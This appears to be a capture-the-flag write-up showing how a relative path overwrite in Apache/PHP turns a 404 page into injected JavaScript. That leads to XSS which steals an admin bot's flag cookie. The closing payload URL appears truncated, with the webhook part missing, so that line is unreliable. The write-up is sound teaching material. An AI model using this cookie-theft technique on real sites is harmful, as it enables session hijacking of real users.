



## Relative Path Overwrite Advanced  



We are given a typical XSS setup in this challenge.  

`/vuln.php` allows us to render arbitrary content, while `/report.php` visits our payload on `/vuln.php` using a Python admin bot with the flag cookie.   

```php
if(isset($_POST['path'])){
    exec(escapeshellcmd("python3 /bot.py " . escapeshellarg(base64_encode($_POST['path']))) . " 2>/dev/null &", $output);
    echo($output[0]);
}

<form method="POST" class="form-inline">
    <div class="form-group">
        <label class="sr-only" for="path">/</label>
        <div class="input-group">
            <div class="input-group-addon">http://127.0.0.1/</div>
            <input type="text" class="form-control" id="path" name="path" placeholder="/">
        </div>
    </div>
    <button type="submit" class="btn btn-primary">Report</button>
</form>
```

```python
def read_url(url, cookie={'name': 'name', 'value': 'value'}):
    cookie.update({'domain':'127.0.0.1'})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in ['headless', 'window-size=1920x1080', 'disable-gpu', 'no-sandbox', 'disable-dev-shm-usage']:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get('http://127.0.0.1/')
        driver.add_cookie(cookie)
        driver.get(url)

    except Exception as e:
        driver.quit()
        return False
    driver.quit()
    return True

def check_xss(path, cookie={'name': 'name', 'value': 'value'}):
    url = f'http://127.0.0.1/{path}'
    return read_url(url, cookie)

if not check_xss(path, {'name': 'flag', 'value': FLAG.strip()}):
    print('<script>alert("wrong??");history.go(-1);</script>')
else:
    print('<script>alert("good");history.go(-1);</script>')
```

However, there is an interesting Apache config file, `000-default.conf`. This file specifies `/404.php` as the default `404` error page for the server.   

```apache
RewriteEngine on
RewriteRule ^/(.*)\.(js|css)$ /static/$1 [L]

ErrorDocument 404 /404.php
```

`/404.php` just returns a message containing the URI that we attempted to request. Keep this in mind, this will come in handy later.  

```php
header("HTTP/1.1 200 OK");
echo $_SERVER["REQUEST_URI"] . " not found."; 
```

`/vuln.php` is the page with the XSS vuln, but its not so straightforward.  

It first loads `filter.js` but due to an intentional bug in Apache config specifications, the server always rewrites the path as `/static/filter`, so the load always fails before the page can even load our XSS payload.  

```html
<script src="filter.js"></script>
<pre id=param></pre>
<script>
    var param_elem = document.getElementById("param");
    var url = new URL(window.location.href);
    var param = url.searchParams.get("param");
    if (typeof filter === 'undefined') {
        param = "nope !!";
    }
    else {
        for (var i = 0; i < filter.length; i++) {
            if (param.toLowerCase().includes(filter[i])) {
                param = "nope !!";
                break;
            }
        }
    }

    param_elem.innerHTML = param;
</script>
```

If we try visiting `filter.js` we can actually see that the custom `/404.php` is being rendered instead.  



PHP allows arbitrary sub-endpoints to be specified after the main file path, and we can leverage this relative path overwrite bug to get JS code execution.  

If we visit `/index.php/,filter=[]//?page=vuln&param=x`, the URI requested now resolves to `/index.php,filter=[]//`. This means when `filter.js` is requested, `/404.php` will return the below message, which is perfectly valid JavaScript.  

Now, `filter` is defined as an empty array in `/vuln.php`, which means we also get arbitrary HTML injection.  

```js
/index.php/,filter=[]// not found
```

We can submit the payload below to `/report.php` to exfiltrate the flag cookie to our webhook.  

```
index.php/,filter=[]//?page=vuln&param=/${document.cookie}`>
```



Flag: `DH{5b3d3705d88555128cdc3a322a5ae5b2}`